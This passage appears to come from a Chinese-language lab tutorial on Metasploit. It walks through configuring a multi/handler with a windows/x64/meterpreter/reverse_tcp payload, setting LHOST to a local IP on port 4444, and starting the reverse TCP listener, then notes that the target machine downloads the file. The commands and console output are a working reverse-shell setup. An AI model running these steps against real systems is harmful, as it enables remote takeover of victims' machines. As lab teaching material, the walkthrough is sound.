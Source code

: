 ```shell


View the full module info with the info, or info -d command.
```

我们可以通过set命令来设置大多数参数

`set payload windows/x64/meterpreter/reverse_tcp`

通过opt可以看到他默认的端口就是4444，我们只需要填入我们本地的ip地址即可。可以通过ip a来查看

`set lhost 192.168.43.155`

```shell
Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.43.155   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

run

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.43.155:4444 
```

靶机下载文件
